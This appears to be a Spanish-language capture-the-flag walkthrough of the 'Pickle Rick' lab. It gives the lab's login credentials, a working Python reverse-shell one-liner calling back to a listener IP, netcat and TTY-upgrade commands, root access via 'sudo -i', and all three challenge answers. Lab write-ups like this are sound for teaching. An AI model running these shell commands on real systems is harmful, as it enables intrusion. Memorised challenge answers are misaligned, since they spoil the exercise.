

Pa dentrooooooooo !!!!!
Sabemos que tenemos un usuario y una contraseña potencial, así que intentaremos.
Username: R1ckRul3s
Password: Wubbalubbadubdub
Perfecto !!! hemos obtenido acceso.
Tenemos varias secciones, pero si les soy sincero, me interesa más la de commands.

Algo que podemos realizar es ver, si podemos ejecutar comandos directamente desde aquí, daremos un ls, y vemos que podemos contestar la primera pregunta si hacemos un cat Sup3rS3cretPickl3Ingred.txt
Vemos que la página es un poco troll, y al hacer cat no nos deja, pues... lo que haremos es ver si podemos hacer ejecución de otros binarios que nos puedan permitir una reverse shell, por ejemplo con python 3, si usamos el siguiente comando podemos comprobar:
python3 -c "print('Jamiel')"

Yupii !!!! Vemos que tenemos ejecución, por lo tanto usaremos in oneliner con python3 que nos permitirá ganar acceso a la máquina directamente:
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.54.248",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
Para esto en paralelo tendremos que correr nuestro netcat en nuestra terminal:
nc -lnvp 1234
Info
Esto se tiene que hacer antes de ejecutar el onliner de python3
Una vez tengamos ready el el netcat, ejecutamos nuestro oneliner, recordar que tenemos que ajustar la ip y el puerto según nuestros requerimientos y pufff, hemos obtenido acceso al serv.

Ahora si podemos ver el primer ingrediente
mr. meeseek hair
Una buena práctica es ejecutar las siguientes lineas mostradas abajo, para poder crear una consola mucho más interactiva:
script /dev/null -c bash
control z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
Ya que tenemos nuestra consola interactiva, procedemos a buscar nuestro segundo ingrediente. Primero buscaremos entre los archivos de la ruta /var/www/html, me encontré que el archivo clue.txt dice lo mostrado en la imagen.
Pregunta-1
What is the first ingredient Rick needs?
mr. meeseek hair
Leido lo que dice el archivo, y deduciendo que es una máquina easy, fuimos a home, encontramos un user llamado rick, accedemos a su dir y encontraremos al archivo que buscamos.

Pregunta-2
Whats the second ingredient Rick needs?
1 jerry tear
Por deducción, imagino que el tercer archivo debe estar dentro de root, pero para poder acceder a este dir necesitamos tener privilegios, uno de los comandos más comunes que tenemos que utilizar es "sudo -i" y efectivamente tenemos el root, ya podemos dirigirnos a /root y hacerle un cat a nuestro tercer archivo.
Pregunta-3
Whats the final ingredient Rick needs?
fleeb juice